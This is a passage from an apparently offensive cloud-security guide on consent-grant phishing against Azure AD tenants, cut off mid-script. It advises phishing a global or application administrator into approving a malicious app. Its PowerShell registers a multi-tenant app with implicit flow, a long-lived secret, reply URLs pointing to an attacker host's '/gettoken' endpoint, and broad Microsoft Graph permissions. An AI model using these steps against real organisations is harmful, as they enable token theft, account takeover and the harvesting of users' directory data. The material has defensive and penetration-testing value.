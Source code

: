 `User.ReadBasic.All` is inside `Microsoft Graph` in `Delegated permissions`. (Application permissions will always need extra approval).

* `User.ReadBasic.All` is the permission that will allow you to **read information of all the users** in the organization if granted.
* Remember that only `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` and a custom role including `permission to grant permissions to applications` can provide tenant-wide consent. So, you should **phish a user with one of those roles** if you want him to approve an **App that requires admin consent**.

You could also create an App via cli with:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
  $AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
  $AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

  $Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access.Type = "Scope"
  $Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
  $AADAccess.ResourceAccess = @()
  $AADAccess.ResourceAccess.Add($Access)

  $Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access2.Type = "Scope"
  $Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
  $AADAccess.ResourceAccess.Add($Access2)

  $Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access3.Type = "Scope"
  $Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
  $AADAccess.ResourceAccess.Add($Access3)

  $Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access4.Type = "Scope"
  $Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
  $AADAccess.ResourceAccess.Add($Access4)

  $app.RequiredResourceAccess.Add($AADAccess)
} else {
  $Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access.Type = "Scope"
  $Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
  $AADAccess.ResourceAccess = @()
  $AADAccess.ResourceAccess.Add($Access)

```